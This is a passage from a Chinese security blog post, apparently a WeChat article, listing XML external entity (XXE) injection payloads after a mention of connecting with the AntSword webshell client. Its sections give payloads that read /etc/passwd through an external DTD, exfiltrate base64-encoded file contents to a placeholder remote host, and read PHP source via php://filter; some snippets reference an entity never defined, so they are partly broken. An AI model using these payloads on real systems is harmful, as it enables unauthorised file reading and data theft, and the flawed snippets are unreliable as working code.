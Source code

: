     最后，借助蚁剑连接即可。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095509.png)

 **    0X04 ** **引入外部实体 dtd命令**

    使用如下类似Payload获取系统敏感文件

  *   *   *   *   *   *   *   *   *   * 

    
    
    <?xml version="1.0" ?><!DOCTYPE test [    <!ENTITY % file SYSTEM "http://127.0.0.1:8080/xml.dtd">    %file;]><x>&xxe;</x>  
    xml.dtd:<!ENTITY send SYSTEM "file:///etc/passwd">  
    

 **    0X05 ** **无回显–读取文件**

    直接使用如下类似Payload获取敏感信息

  *   *   *   *   *   *   * 

    
    
    <?xml version="1.0"?><!DOCTYPE test [    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">    <!ENTITY % dtd SYSTEM "http://远程:8081/test.dtd">    %dtd;    %xxe;]>

 **    0X06 ** **协议-读文件（绕过）**

    直接使用如下类似Payload获取敏感信息

  *   *   * 

    
    
    <?xml version = "1.0"?>    <!DOCTYPE ANY [ <!ENTITY f SYSTEM "php://filter/read=convert.base64-encode/resource=xxe.php"> ]><x>&xxe;</x>

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095510.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095511.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095512.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095513.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095504.png)

如果喜欢，敬请关注哦，后期更精彩！

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095515.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095516.png)
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095517.png)

往 期 推 荐 ·值 得 细 看

[

2023全网最优渗透研学靶场汇总（上）

2023-02-23

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095518.png)
](https://mp.weixin.qq.com/s?__biz=MzkwODMzOTA2NA==&mid=2247487135&idx=1&sn=c9b74b1fb501a3909fff462ca4ec1a4e&chksm=c0ca3c88f7bdb59e524544c1f0b8c3079956352417940311e7ac8f30a09b1ad7fb9c6a59da9f&scene=21#wechat_redirect)[

